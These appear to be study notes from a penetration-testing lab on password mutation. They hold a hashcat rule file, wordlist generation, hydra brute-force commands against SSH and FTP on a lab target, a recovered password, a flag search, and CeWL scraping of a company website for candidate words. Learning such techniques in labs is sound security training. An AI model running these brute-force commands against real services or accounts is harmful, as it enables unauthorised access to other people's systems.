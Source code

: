 # Password mutation

Objective : find weak passwords which respect password policy

cat password.list

password

cat custom.rule

:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
$1 $2 $3
c $1 $2 $3
c so0
sa@ $1 $2 $3
c sa@ $1 $2 $3
c sa@ so0 $1 $2 $3
$! $1 $2 $3
$! c $1 $2 $3
$! so0 $1 $2 $3
$! sa@ $1 $2 $3
$! c so0 $1 $2 $3
$! c sa@ $1 $2 $3
$! so0 sa@ $1 $2 $3
$! c so0 sa@ $1 $2 $3

hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list

cat mut_password.list

hydra -l sam -P mut_password.list ssh://$TARGET

sed -ri '/^.{,9}$/d' mut_password.list
head -17000 mut_password.list > 7000mut_password.list
hydra -l sam -P 7000mut_password.list ftp://$TARGET -t 64

B@tm@n2022!

find / -name flag.txt -ls 2> /dev/null

## Hashcat Existing Rules

ls /usr/share/hashcat/rules/

## CeWL

CeWL scan potential words from the company's website and save them in a separate list.

cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
wc -l inlane.wordlist